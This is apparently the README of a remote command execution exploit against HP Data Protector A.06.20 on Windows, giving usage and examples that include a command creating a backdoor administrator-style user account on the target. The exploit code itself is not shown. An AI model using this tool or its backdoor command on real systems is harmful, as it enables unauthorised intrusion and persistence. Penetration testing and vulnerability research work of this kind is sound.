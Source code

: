 # HP Data Protector Arbitrary Remote Command Execution
This script allows to execute a command with an arbitrary number of arguments. The trick is done by calling the **perl.exe** interpreter installed with HP Data Protector inside the directory ```{install_path}/bin/```

The existing exploits allows to execute a single command without parameters and this behaviour is unexceptable in most of the pentesting scenarious. The main feature of the script is to bypass that limitation allowing to execute a command with all the needed parameters.

# Target OS
* Microsoft Windows

# Tested Version
* HP Data Protector A.06.20

# Usage
```hp_data_protector_rce.py <target> <port> <command>```

# Example
```hp_data_protector_rce.py 192.168.1.1 5555 'dir c:\'```

```hp_data_protector_rce.py 192.168.1.1 5555 'ipconfig /all'```

```hp_data_protector_rce.py 192.168.1.1 5555 'net user userbackdoor pwdbackdoor /ADD'```

# Metasploit module
The exploit is also provided with a Metasploit module.

# Reference:
http://www.zerodayinitiative.com/advisories/ZDI-11-055/
